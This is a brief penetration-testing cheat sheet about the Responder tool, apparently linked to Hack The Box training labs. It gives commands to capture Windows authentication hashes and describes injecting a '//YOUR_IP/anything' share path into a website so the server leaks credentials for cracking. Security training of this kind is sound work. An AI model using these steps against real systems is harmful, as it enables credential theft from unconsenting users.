 # Responder

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -i IP -I tun0
```
</div><div>

Following the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Passive Network Discovery

```ps
$ sudo responder -I tun0 -A
```
</div><div>
</div></div>
